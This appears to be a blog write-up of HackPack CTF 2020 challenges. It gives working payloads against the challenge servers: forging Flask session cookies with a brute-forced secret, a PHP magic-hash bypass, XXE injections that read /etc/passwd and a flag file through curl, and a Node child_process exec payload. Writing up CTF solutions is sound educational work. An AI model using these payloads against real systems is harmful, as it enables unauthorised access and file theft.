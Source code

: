 ```yaml
---
layout: post
title: HackPack CTF 2020
categories: [Capture The Flag]
tags: [hackpack, web, pwn, misc]

---
```


[Hackpack](https://ctf2020.hackpack.club/challenges) is an educational CTF that aims to complement security courses at North Carolina State University. Date: vie, 17 abr. 2020, 17:00 UTC — mar, 28 abr. 2020, 03:59 UTC


## Web
- Cookie Forge. When we log in, a cookie named session appears (this is the JWT). In the Flagship Loyalty section, we see this Warning: "You aren't a Flagship Loyalty Member! No cookies for you!!".
```
flask-unsign -d -c 'eyJmbGFnc2hpcCI6dHJ1ZSwidXNlcm5hbWUiOiJhYSIsImFsZyI6IkhTMjU2In0.e30.yoxyotdennG9lsGnJNK1REYuSNqVUmN_ijyN26xO3z8'  
{'flagship': True, 'username': 'aa', 'alg': 'HS256'}
flask-unsign --server https://cookie-forge.cha.hackpack.club/orders --unsign  // bruteforce psw is password1
flask-unsign --sign --secret password1 --cookie "{'flagship': True, 'username': 'aa'}"
```
Editing the cookie, we get the flag.

- Treasure Map: 
https://treasure-map.cha.hackpack.club/robots.txt ->
view-source:https://treasure-map.cha.hackpack.club/treasuremap.xml ->
view-source:https://treasure-map.cha.hackpack.club/7BmqJfhWhEa30NeVj7j2.html -> Flag

- Super Secret Flag Vault: The Index.php file shows us a PHP script comparing a specific hash. For this, we use the well-known: PHP magic hashes. Where 0+e[0-9]+ compared with == returns true. For eg -'0e1' == '00e2'. We put as input "KnCM6ogsNA1W" whose hash is 00e73414578113850089230341919829.

- Paster: view-source -> src="frames/index.php" -> src="game-frame.js" where a JSfuck code appears. Using https://enkhee-osiris.github.io/Decoder-JSFuck/, we get:
```
parent.postMessage(window.location.toString(),"*");var originalAlert=window.alert;window.alert=function(t){parent.postMessage("success","*"),flag=atob("ZmxhZ3t4NTVfaTVOdF83aEE3X2JBRF9SMUdoNz99"),setTimeout(function(){originalAlert("Congratulations, you executed an alert:\n\n"+t+"\n\nhere is the flag: "+flag)},50)};d
```
Inspect the site and, in the console section, write: flag=atob("ZmxhZ3t4NTVfaTVOdF83aEE3X2JBRF9SMUdoNz99") -> "flag{x55_i5Nt_7hA7_bAD_R1Gh7?}"

- Custom UI: Inserting '<', we get "Warning: DOMDocument::loadXML():". This is a [XML External Entity Injection](https://portswigger.net/web-security/xxe).
We see that there is a xdata variable, so we can inject here our data. xdata: <button><color> mn</color><value></value></button>
Injection: <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><button><color>&xxe;</color><value>iii</value></button>

[URL encoded](https://www.urlencoder.org/): %3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e

```
curl "https://custom-ui.cha.hackpack.club/" -d xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e
```

Changing the cookie to True:

```
curl "https://custom-ui.cha.hackpack.club/" -d xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e -v --cookie "debug=true"
...
</div>
<!-- TODO: Delete flag.txt from /etc/ --></body>
...

```
Injection: <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/flag.txt"> ]><button><color>&xxe;</color><value>iii</value></button>

```
curl "https://custom-ui.cha.hackpack.club/" -d xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fflag.txt%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e -v --cookie "debug=true"
```

And we get the flag.

## PWN 
- Jsclean: the python file is asking for a js file and a js code. In the python script we can see that it refers to index.js, so we know that this is the file to clean: index.js and the js code is: require("child_process").exec("cat flag.txt", function(error, stdout, stderr){console.log(stdout);});

## Misc
- Soundy: using a sstv decoder
-Listen up!: when we use the exiftool command, we get a comment with an [URL](https://www.youtube.com/watch?v=2xZgCVG_Bzk) about MS Paint EXE file.
We need to convert the audio to RAW format (it is the uncompressed audio).
